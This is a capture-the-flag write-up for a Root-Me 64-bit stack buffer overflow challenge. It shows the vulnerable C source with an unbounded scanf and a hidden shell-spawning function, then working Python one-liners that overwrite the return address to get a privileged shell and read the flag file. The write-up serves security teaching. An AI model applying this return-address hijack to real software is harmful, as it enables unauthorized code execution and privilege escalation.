 # ELF x64: Stack buffer overflow basic

[root-me challenge](https://www.root-me.org/en/Challenges/App-System/ELF-x64-Stack-buffer-overflow-basic): first step to 64 bits.

Environment configuration:

```text
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomisation 	 Yes 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 
```

Source code:

```text
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
/*
gcc -o ch35 ch35.c -fno-stack-protector -no-pie -Wl,-z,relro,-z,now,-z,noexecstack
*/
 
void callMeMaybe(){
    char *argv[] = { "/bin/bash", "-p", NULL };
    execve(argv[0], argv, NULL);
}
 
int main(int argc, char **argv){
 
    char buffer[256];
    int len, i;
 
    scanf("%s", buffer);
    len = strlen(buffer);
 
    printf("Hello %s\n", buffer);
 
    return 0;
}
```

----

The program allocates 288 bytes for the function, and 272 bytes for the buffer, before calling the `scanf` function. Write 280 bytes and then the return address (to `callMeMaybe`).

```text
app-systeme-ch35@challenge03:~$ python -c "print 'A'*280 + 'DDDD'" | ./ch35 
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Segmentation fault
```

```text
app-systeme-ch35@challenge03:~$ cat <(python -c 'print "A"*280+"\xe7\x05\x40"+"\x00"*5') - | ./ch35
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
id
uid=1135(app-systeme-ch35) gid=1135(app-systeme-ch35) euid=1235(app-systeme-ch35-cracked) groups=1135(app-systeme-ch35),100(users)
cat .passwd
```

## Resources

* [64 Bits Linux Stack Based Buffer Overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%2064%20Bits%20Linux%20Stack%20Based%20Buffer%20Overflow.pdf)
